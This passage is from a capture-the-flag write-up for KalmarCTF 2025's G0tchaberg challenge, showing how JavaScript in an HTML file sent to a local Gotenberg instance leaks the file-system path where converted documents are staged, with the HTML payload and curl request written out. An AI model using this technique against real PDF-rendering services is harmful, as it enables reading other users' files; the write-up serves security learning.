 ```go
}
```

Now, instead of reading the source code to figure where does that `index.html` file is, we can just use `grep` in the container:

```shell
gotenberg@ebfb21d3ddb9:/tmp$ while true; do grep -r "kalmar{" 2>/dev/null; done
f2a92410-c4fc-41e2-9c06-0428e25570c2/d2318c8a-41ce-4632-bbbe-ae630551d804/index.html:    <h2>kalmar{test_flag}</h2>
f2a92410-c4fc-41e2-9c06-0428e25570c2/d2318c8a-41ce-4632-bbbe-ae630551d804/index.html:    <h2>kalmar{test_flag}</h2>
f2a92410-c4fc-41e2-9c06-0428e25570c2/d2318c8a-41ce-4632-bbbe-ae630551d804/index.html:    <h2>kalmar{test_flag}</h2>
f2a92410-c4fc-41e2-9c06-0428e25570c2/d2318c8a-41ce-4632-bbbe-ae630551d804/index.html:    <h2>kalmar{test_flag}</h2>
```

It seems like the `index.html` file is at path **`/tmp/<fs.workingDir>/<random_UUID>/index.html`**.

Huh, can we somehow read the `index.html` file via leaking `fs.workingDir` and `random_UUID` file? Maybe. Also, we're not going to read the PDF file, as it requires an extra step to leak the random UUID PDF filename.

Since [Gotenberg's Chromium browser enable JavaScript by default](https://gotenberg.dev/docs/configuration#chromium) (Flag `--chromium-disable-javascript` is set to `false`), we can leverage something like **HTML tag `<iframe>` and JavaScript to leak those UUID strings**.

For example, we can use JavaScript's [`window.location`](https://developer.mozilla.org/en-US/docs/Web/API/Window/location) to leak the current URL. Remember, the Chromium browser's URL is `file://index.html`, which is path `/tmp/<fs.workingDir>/<random_UUID>/index.html`. Also, since the [`Location`](https://developer.mozilla.org/en-US/docs/Web/API/Location) object is not a part of the browser sandbox, we can read its value:

```html
<p id="path"></p>

<script>
const currentPath = window.location.pathname;
path.innerText = `Current path: ${currentPath}`;
</script>
```

If we convert the above `index.html` file into a PDF file via POST route `/forms/chromium/convert/html`, we can leak the current URL pathname:

```shell
┌[siunam♥Mercury]-(~/ctf/KalmarCTF-2025/web/G0tchaberg)-[2025.03.11|22:33:40(HKT)]
└> curl -s \        
--request POST http://localhost:8642/forms/chromium/convert/html \
--form files=@index.html \
-o output.pdf
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/KalmarCTF-2025/images/Pasted%20image%2020250311223502.png)
